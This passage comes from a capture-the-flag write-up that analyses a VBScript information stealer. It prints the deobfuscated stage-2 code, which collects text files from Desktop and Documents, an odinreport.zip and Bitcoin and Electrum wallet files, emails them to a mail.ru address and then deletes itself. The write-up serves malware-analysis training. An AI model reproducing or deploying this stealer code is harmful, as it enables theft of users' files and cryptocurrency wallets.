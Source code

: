 ```vb
iMsg.From=strFrom 
iMsg.Subject=strSubject 

iMsg.TextBody=strBody 
Set fld = FSO.GetFolder(S.SpecialFolders(Desktop))
For each file in fld.files
    if LCase(FSO.GetExtensionName(file)) = "txt" Then
        iMsg.AddAttachment file.path
	
    End if
Next







Flds.Update 
iMsg.Configuration=iConf 
iMsg.To=strTo 

iMsg.From=strFrom 
iMsg.Subject=strSubject 
iMsg.TextBody=strBody 

Set fld = FSO.GetFolder(S.SpecialFolders(MyDocuments))
For each file in fld.files
    if LCase(FSO.GetExtensionName(file)) = "txt" Then
        iMsg.AddAttachment file.path
	
    End if
Next
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "A:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "B:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "D:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Roaming\Bitcoin\wallet.dat"
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Roaming\Electrum\wallets\default_wallet"
iMsg.Send



Set mFSO = CreateObject("Scripting.FileSystemObject")

Call mFSO.DeleteFile(WScript.ScriptFullName, True)
```

As you can see, this malware is an information stealer malware, as **it's exfiltrating `odinreport.zip`, crypto wallets like Bitcoin's `wallet.dat`, Electrum's `default_wallet`.**

**Also, in this stage 2 payload, it's adding those attachments to an email, and send to email address `bmwqia84@mail.ru`.**

- **Flag: `Hero{bmwqia84@mail.ru|default_wallet}`**

## Conclusion

What we've learned:

1. Manually Deobfuscating VBScript Code